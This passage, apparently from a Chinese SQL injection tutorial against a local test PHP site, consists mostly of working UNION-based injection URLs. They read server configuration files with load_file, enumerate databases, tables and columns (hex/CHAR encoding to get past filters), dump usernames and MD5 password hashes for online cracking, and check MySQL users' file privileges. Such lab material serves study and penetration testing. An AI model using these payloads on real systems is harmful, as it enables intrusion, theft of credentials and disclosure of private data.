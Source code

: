 判断网站运行在 Windows 下，使用 load_file 读取配置文件，Windows 下不区分大小写

`http://127.0.0.1/test/article.php?id=-1 union select 1,load_file("C:\\php\\php.ini"),load_file("C:\\apache24\\conf\\httpd.conf") --`

### 查询数据库表名，字段和内容

如果直接使用名字去查，查不出来的话，可以使用 char 或者 十六进制形式

`http://127.0.0.1/test/article.php?id=-1 union select 1,2,concat(table_name) from information_schema.tables where table_schema=database() --` 得到两个表名 article 和 user

在查表时发现，如果直接查询的话并不能查询出来，需要将表名转码为 CHAR(97, 114, 116, 105, 99, 108, 101) 字符之后就可以查询出来
`http://127.0.0.1/test/article.php?id=-1 union select 1,2,concat(column_name) from information_schema.columns where table_name=article  --`  查询不出来

`http://127.0.0.1/test/article.php?id=-1 union select 1,2,concat(column_name) from information_schema.columns where table_name=CHAR(97, 114, 116, 105, 99, 108, 101) and table_schema=test --`  查询出三个字段 id title content

`http://127.0.0.1/test/article.php?id=-1 union select 1,2,concat(column_name) from information_schema.columns where table_name=CHAR(117, 115, 101, 114) and table_schema=test --`  查询出三个字段 id username password

`http://127.0.0.1/test/article.php?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name=CHAR(117, 115, 101, 114) and table_schema=database() --`

> 使用 group_concat 与 concat 的区别是，concat 能将不同的字段查找的值连接起来，group_concat 能将所有的每个字段查找到的值一次全部连接起来

然后查询内容

`http://127.0.0.1/test/article.php?id=-1 union select 1,2,concat(id,title,content) from article --`  可以查出全部的文章。

`http://127.0.0.1/test/article.php?id=-1 union select 1,username,password from user --`  可以查出 user 表的内容

> 其中密码是加密过的，可以找在线 md5 解密网站解密出来

### 查询其他数据库和内容

`http://127.0.0.1/test/article.php?id=-1 union select 1,schema_name,3 from information_schema.schemata --`  可以查看所有的数据库

`http://127.0.0.1/test/article.php?id=-1 union select 1,2,concat(table_name) from information_schema.tables where table_schema=数据库名 --` 即可得到表名名

`http://127.0.0.1/test/article.php?id=-1 union select 1,2,concat(column_name) from information_schema.columns where table_name=表的 char 形式 -- `  即可得到字段

### 查询 MySQL 用户和密码

`http://127.0.0.1/test/article.php?id=1 and (select count(*) from mysql.user)>0 --`  查询有无 MySQL 用户

`http://127.0.0.1/test/article.php?id=1 and (select count(file_priv) from mysql.user)>0 --` 查询有无 MySQL 用户有文件读写权限

`http://127.0.0.1/test/article.php?id=-1 union select 1,2,concat(user,file_priv) from mysql.user --` 查询是哪些 MySQL 用户具有读写权限
